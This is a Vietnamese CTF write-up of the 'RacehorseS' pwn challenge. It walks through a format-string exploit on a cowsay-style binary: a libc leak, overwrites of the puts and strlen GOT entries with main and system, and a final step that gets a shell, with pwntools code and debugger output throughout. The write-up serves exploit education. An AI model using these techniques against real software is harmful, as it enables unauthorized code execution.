

# ***Challenge: RacehorseS***



## Pseudo Code:
- Ta sẽ dịch ngược file binary bằng ida64:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 i; // [rsp+10h] [rbp-430h]
  unsigned __int64 j; // [rsp+18h] [rbp-428h]
  size_t len_before; // [rsp+20h] [rbp-420h]
  size_t len_after; // [rsp+28h] [rbp-418h]
  char s[1032]; // [rsp+30h] [rbp-410h] BYREF
  unsigned __int64 v9; // [rsp+438h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  memset(s, 0, 0x400uLL);
  printf("Say something: ");
  if ( fgets(s, 1024, stdin) )
  {
    len_before = strlen(s);
    if ( len_before && s[len_before - 1] == 10 )
      s[len_before - 1] = 0;
    len_after = strlen(s);
    if ( !len_after )
      strcpy(s, "(silence)");
    putchar(32);
    for ( i = 0LL; i < len_after + 2; ++i )
      putchar(95);
    printf("\n< ");
    printf(s);  //format string
    puts(" >");
    for ( j = 0LL; j < len_after + 2; ++j )
      putchar(45);
    putchar(10);
    puts("        \\   ^__^");
    puts("         \\  (oo)\\_______");
    puts("            (__)\\       )\\/\\");
    puts("                ||-----||");
    puts("                ||     ||");
    puts(&byte_402096);
    exit(0);
  }
  return 0;
}
```
- Mô tả chương trình: Chương trình cho ta nhập s tối đa 1024 byte rồi in ra những gì ta nhập.
## Exploit:
- Ta sẽ kiểm tra các chế độ bảo vệ của file:
```sh
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
-> Nhận xét, ta thấy Partial RELRO nên ta hoàn toàn có thể ghi đè vào địa chỉ của các hàm libc thông qua format string. No PIE cho thấy ta sẽ có thể ko cần leak địa chỉ exe_base.

**-> Như vậy, ý tưởng khai thác của ta sẽ là leak libc_base trước, trong khi leak libc ta có thể ghi đè hàm puts của file thành hàm main, ta sẽ thực thi lại hàm main với mục đích tiếp tục format string lần 2 để ghi đè hàm strlen(s) thành hàm system của libc.**

### Stage 1: Leak libc_base và ghi đè hàm puts thành hàm đầu hàm main:
- Do cần leak libc nên ta sẽ patched file bin với file libc và ld được cung cấp trước rồi debug.
- Địa chỉ libc nằm ở vị trí thứ 143 nên ta sẽ leak và tính offset.
```sh
pwndbg> 
88:0440│ rbp 0x7fffffffdd80 —▸ 0x7fffffffde20 —▸ 0x7fffffffde80 ◂— 0
89:0448│+008 0x7fffffffdd88 —▸ 0x7ffff7c2a1ca (__libc_start_call_main+122) ◂— mov edi, eax
8a:0450│+010 0x7fffffffdd90 —▸ 0x7fffffffddd0 —▸ 0x403e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401220 (__do_global_dtors_aux) ◂— endbr64 
```
```sh
pwndbg> p/x 0x7ffff7c2a1ca - 0x7ffff7c00000
$1 = 0x2a1ca
```
- Tiếp theo ta sẽ đồng thời viết địa chỉ hàm puts vào và overwrite nó thành main, do 2 địa chỉ này đều của exe nên ta chỉ cần overwrite 2 byte cuối:
```py
fmt = b"%143$p|"
fmt += f"%{exe.sym.main - 15 & 0xffff}c%16$hn".encode()
payload = fmt.ljust(0x20, b'A')
payload += p64(exe.got.puts)

p.sendlineafter(b"something: ", payload)
p.recvuntil(b'____________________________________\n')
p.recvuntil(b"< ")
libc_leak = int(p.recvuntil(b"|", drop = True), 16)
libc.address = libc_leak - 0x2a1ca
log.info("libc_leak: " + hex(libc_leak))
log.info("libc_base: " + hex(libc.address))
```
- Giờ ta kiểm tra lại bằng debug động:
```sh
03:0018│-428 0x7ffecddf8bb8 —▸ 0x7b62655242e0 ◂— 0
04:0020│-420 0x7ffecddf8bc0 ◂— 0x23 /* '#' */
05:0028│-418 0x7ffecddf8bc8 ◂— 0x23 /* '#' */
06:0030│-410 0x7ffecddf8bd0 ◂— 0x257c702433343125 ('%143$p|%')
07:0038│-408 0x7ffecddf8bd8 ◂— 0x3631256330313834 ('4810c%16')
pwndbg> 
08:0040│-400 0x7ffecddf8be0 ◂— 0x41414141416e6824 ('$hnAAAAA')
09:0048│-3f8 0x7ffecddf8be8 ◂— 0x4141414141414141 ('AAAAAAAA')
0a:0050│-3f0 0x7ffecddf8bf0 —▸ 0x404008 (puts@got[plt]) —▸ 0x4012d9 (main) ◂— endbr64 
0b:0058│-3e8 0x7ffecddf8bf8 ◂— 0xa /* '\n' */
0c:0060│-3e0 0x7ffecddf8c00 ◂— 0
```
-> đã ghi đc thành main.
```sh
[+] Waiting for debugger: Done
[*] libc_leak: 0x7b626522a1ca
[*] libc_base: 0x7b6265200000
[*] Switching to interactive mode
```
-> Đã leak đúng libc_base.

### Stage 2: Ghi đè hàm strlen(s) thành system của libc:
-Khi đã leak đc libc_base thì đến đây thì đơn giản rồi, ta sẽ thực hiện tương tự như trên để ghi đè, nhưng lần này ta sẽ phải ghi đè 3 byte cuối nên 2 sẽ chia thành 2 lần.
```py
system = libc.sym.system

part1 = system & 0xff
part2 = system >> 8 & 0xffff
fmt = f"%{part1}c%16$hhn".encode()
fmt += f"%{part2 - part1}c%17$hn".encode()
payload = flat(
    fmt.ljust(0x20, B'A'),
    exe.got.strlen,
    exe.got.strlen + 1
)

p.sendlineafter(b"something: ", payload)
```
- Debug động kiểm tra:
```sh
09:0048│-3f8 0x7fff844a5f48 ◂— 0x4141414141414141 ('AAAAAAAA')
0a:0050│-3f0 0x7fff844a5f50 —▸ 0x404010 (strlen@got[plt]) —▸ 0x793a13a58750 (system) ◂— endbr64 
0b:0058│-3e8 0x7fff844a5f58 —▸ 0x404011 (strlen@got[plt]+1) ◂— 0x600000793a13a587
0c:0060│-3e0 0x7fff844a5f60 ◂— 0xa /* '\n' */

```
-> Thành công ghi được strlen thành system.

### Stage 3: Lấy shell:
- Sau khi ghi đè thành công, ta sẽ được quay lại đầu hàm main do nãy ta đã ghi đè puts thành main, giờ chỉ cần gửi chuỗi b'/bin/sh\0' để lấy shell. Lúc này strlen(b'/bin/sh\0') sẽ thành system(b'/bin/sh\0') và ta sẽ lấy được shell
```py
p.sendlineafter(b"something: ", b'/bin/sh\0')
```
- Gửi script thử:
```sh
[+] patched': pid 4723
[*] libc_leak: 0x7d520862a1ca
[*] libc_base: 0x7d5208600000
[*] Switching to interactive mode
$ 
$ ls
flag	   horse_say.i64      ld-linux-x86-64.so.2  solve.py
horse_say  horse_say_patched  libc.so.6
$ id
uid=1000(dinhduc) gid=1000(dinhduc) groups=1000(dinhduc),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$ whoami
dinhduc
$
```

***-> Đã chiếm được shell***